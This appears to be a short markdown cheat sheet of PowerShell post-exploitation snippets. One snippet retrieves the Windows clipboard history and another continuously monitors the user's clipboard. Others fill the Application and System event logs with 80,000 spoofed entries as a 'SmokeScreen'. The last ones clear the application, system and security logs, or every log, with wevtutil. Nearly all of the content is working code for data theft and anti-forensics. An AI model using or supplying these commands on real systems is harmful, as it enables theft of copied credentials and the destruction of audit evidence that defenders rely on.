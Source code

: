 ## Get ClipBoard history (Powershell)
``` 
Add-Type -AssemblyName System.Runtime.WindowsRuntime
$asTaskGeneric = ([System.WindowsRuntimeSystemExtensions].GetMethods() | ? { $_.Name -eq 'AsTask' -and $_.GetParameters().Count -eq 1 -and $_.GetParameters()[0].ParameterType.Name -eq 'IAsyncOperation`1' })[0]
function Await($WinRtTask, $ResultType) {
 $asTask = $asTaskGeneric.MakeGenericMethod($ResultType)
 $netTask = $asTask.Invoke($null, @($WinRtTask))
 $netTask.Wait(-1) | Out-Null
 $netTask.Result
}

$null = [Windows.ApplicationModel.DataTransfer.Clipboard, Windows.ApplicationModel.DataTransfer, ContentType=WindowsRuntime]
$op = [Windows.ApplicationModel.DataTransfer.Clipboard]::GetHistoryItemsAsync()

$result = Await ($op) `
    ([Windows.ApplicationModel.DataTransfer.ClipboardHistoryItemsResult])

$textops = $result.Items.Content.GetTextAsync()
for ($i = 0; $i -lt $textops.Count; $i++){ Await($textops[$i]) ([String]) }
```
## Monitor Clipboard data in current user's session with Powershell
```
$x=""; while($true) { $y=get-clipboard -raw; if ($x -ne $y) { Write-Host $y; $x=$y } ; Sleep 1 }	
```   
## Playing with Event logs
SmokeScreen - fill up the app log basd on default size
```
for ($num = 1 ; $num -le 80000 ; $num++){
Write-EventLog -LogName "Application" -Source "edgeupdate" -EventID 3001 -EntryType Information -Message "MyApp added a user-requested feature to the display." -Category 1 -RawData 10,20
}
```
SmokeScreen - fill up the SYSTEM log
```
for ($num = 1 ; $num -le 80000 ; $num++){
Write-EventLog -LogName "System" -Source "Service Control Manager" -EventID 3001 -EntryType Information -Message "MyApp added a user-requested feature to the display." -Category 1 -RawData 10,20
}
```
Wipe all the events from specfic logs
```
Clear-EventLog -LogName application, system, security -Confirm:$false
```
Wipe ALL
```
Get-WinEvent -ListLog * -Force | % { Wevtutil.exe cl 
$_.Logname }
```
Source : https://twitter.com/uk_daniel_card/status/1686324052133081088?s=46&t=HPU9jXRomIB-x12L9kVBdQ
